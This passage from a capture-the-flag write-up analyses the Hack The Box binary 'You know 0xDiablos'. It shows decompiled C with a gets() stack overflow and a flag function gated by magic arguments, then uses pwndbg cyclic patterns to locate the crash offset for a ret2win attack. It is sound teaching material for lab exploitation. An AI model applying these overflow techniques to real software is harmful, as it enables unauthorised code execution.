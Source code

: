 The `vuln()` seems interesting, let's check what it does.

```c
int vuln()
{
  char INPUT[180]; // [esp+0h] [ebp-B8h] BYREF

  gets(INPUT);
  return puts(INPUT);
}
```

It allocates a memory space of 180 bytes and use `gets()` to ask for the input. As everybody knows, the `gets()` function is regarded as a super dangerous funtion, and the vulnerability of this challenge will happen here.

Besides this, you can notice that there's still a cool function called `flag()`. Let's see the code below.

```c
char *__cdecl flag(int a1, int a2)
{
  char *result; // eax
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Hurry up and try in on server side.");
    exit(0);
  }
  result = fgets(s, 64, stream);
  if ( a1 == 0xDEADBEEF && a2 == 0xC0DED00D )
    return (char *)printf(s);
  return result;
}
```

It reads the flag.txt file and outputs its contents as long as the condition is met, which is to make `a1` equals to `0xDEADBEEF` and `a2` equals to `0xC0DED00D`.

At this point, we can probably know that this challenge is a **ret2win** problem, so we should find the offset and the address of the function we want to execute.

## Get Offset

```bash
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> r
Starting program: /home/kali/CTF/HTB/You know 0xDiablos/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
You know who are 0xDiablos:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616177 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
```
